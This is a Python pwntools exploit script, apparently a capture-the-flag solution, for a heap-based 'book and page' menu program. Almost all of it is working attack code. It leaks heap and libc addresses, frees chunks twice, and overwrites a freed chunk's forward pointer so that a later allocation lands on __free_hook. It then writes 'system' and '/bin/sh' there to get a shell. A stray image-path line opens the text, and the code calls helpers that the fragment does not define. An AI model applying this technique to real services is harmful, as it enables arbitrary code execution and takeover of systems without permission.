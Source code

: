 ```python
    print(io.recvuntil(b'> Your choice: '))
    io.sendline('2')
    print(io.recvuntil(b'[+] Which book you want to print?: '))
    io.sendline(str(book_idx))
    print(io.recvuntil(b'[+] Which page you want to print?: '))
    io.sendline(str(page_idx))

def edit(book_idx, page_idx, content):
    print(io.recvuntil(b'> Your choice: '))
    io.sendline('3')
    print(io.recvuntil(b'[+] Which book you want to edit?: '))
    io.sendline(str(book_idx))
    print(io.recvuntil(b'[+] Which page you want to edit?: '))
    io.sendline(str(page_idx))
    print(io.recvuntil(b'[+] Enter new content: '))
    io.send(content)

def dele(book_to_delete_page_from):
    print(io.recvuntil(b'> Your choice: '))
    io.sendline('4')
    print(io.recvuntil(b'[+] Which book you want to delete page?: '))
    io.sendline(str(book_to_delete_page_from))


# leak heap
add(2, 4, b'A') # target
add(2, 4, b'B') # dummy
dele(2) # free dummy
dele(2) # free target
prit(2, 0) # print target's forward pointer
print(io.recvuntil(b'[+] Content: '))
a = io.recv(4)+b'\0\0\0\0'
heap_base = u64(a)- 0x2c0 # calculate the base heap
b = hex(heap_base)
log.info(f'Heap: {b}')
add(2, 4, b'A') # realign heap
add(2, 4, b'B') # realign heap


# leak libc
add(0, 2000, b'AAAA') # target
add(1, 2000, b'BBBB') # dummy to prevent heap collision
dele(0) # free target
prit(0, 0) # print target's <main_arena+96> address
print(io.recvuntil(b'[+] Content: '))
a= io.recv(6)+b'\0\0'
libc_start_main = u64(a)-1854496 # calculate libc_start_main
add(0, 2000, b'AAAA') # realign hea


add(4, 1000, b'A'*4) # add page to book 4: b4->[0]
dup(4, 4, 0) # duplicate page 0 of book 4: b4->[0,1]
add(4, 0x40, b'A') # add target page to book 4: b4->[0,1,2]
add(4, 0x40, b'A') # add dummy page to book 4: b4->[0,1,2,3]
dele(4) # remove page dummy page from book 4
dele(4) # remove page target page from book 4
#crafting payload
pl = b'A'*24+p64(0x51)
pl += p64(libc_start_main - elf.sym['__libc_start_main'] + 0x1eeb28 - 8) # __free_hook - 8
pl += p64(0) #+p64(heap_base + 0x10) remove hashtag for libc 2.32
edit(4, 1, pl) # overwrite target page's forward pointer with __free_hook address
add(4, 0x40, b'A') # malloc target heap, the next malloc will allocate memory at __free_hook
add(4, 0x40, b"/bin/sh\0" + p64(libc_start_main-elf.sym['__libc_start_main']+elf.sym['system']))
```